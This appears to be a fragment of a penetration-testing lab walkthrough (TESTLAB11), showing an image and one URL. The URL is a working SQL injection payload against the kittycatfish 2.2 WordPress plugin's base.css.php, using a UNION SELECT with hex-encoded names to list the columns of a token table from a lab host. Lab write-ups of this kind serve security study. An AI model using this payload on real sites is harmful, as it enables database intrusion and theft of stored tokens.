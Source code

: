 ![Alt text](/img/game/TESTLAB/TESTLAB11/1512195065290.png)

```
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name=0x746c5f746f6b656e%20GROUP%20BY%20table_name%20LIMIT%200,1)
```
